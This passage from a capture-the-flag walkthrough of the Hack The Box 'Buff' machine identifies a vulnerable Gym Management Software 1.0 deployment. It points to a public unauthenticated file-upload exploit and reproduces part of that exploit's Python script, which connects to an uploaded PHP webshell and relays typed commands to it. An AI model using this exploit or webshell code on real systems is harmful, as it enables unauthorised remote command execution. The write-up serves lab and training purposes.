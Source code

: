 This seems to be a big clue, and so we should Google `Gym Management Software 1.0`. What we will find is that the tool is a product of [Projectworlds.in](https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/). Another clue that we find on the page that can help to assure us that this is really a Gym Management Software 1.0 deployment is that we see `© Projectworlds.in` at the bottom of each page. We should begin searching for ways to exploit this system.

## Exploiting Gym Management Software 1.0
Searching for a vulnerability of the `Gym Management Software 1.0` tool will be very easy! When we simply google 'Gym Management Software 1.0' the very first result that shows up is [this exploit](https://www.exploit-db.com/exploits/48506) on Exploit-DB. Funny, the exploit has more page rank relevance than the tool itself on Google. 

Reading through the exploit code, it appears that this exploit is going to take advantage of an unprotected page named `upload.php` that is found in the site root. We can try to access this page before attempting the exploit, to confirm that it is available.

When we navigate to `http://10.10.10.198:8080/upload.php`, we are presented with an error stating `Undefined index: id in C:\xampp\htdocs\gym\upload.php on line 4`. 

![](/assets/images/htb-buff/03_buff_upload_php.png)

This is fine as it is just saying that it expected that we passed a value for the `id` parameter. If for example we go to `http://10.10.10.198:8080/upload.php?id=idiothacker`, the error goes away and the page loads. It appears to be an empty page when viewing it in our browser, but the script will send along everything we need in the payload to upload and connect to shell code.

Get the following raw Python code for the exploit from Exploit-DB and then save it in your working directory as gms-exploit.py.

##### Exploit Script (gms-exploit.py)
``` python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
```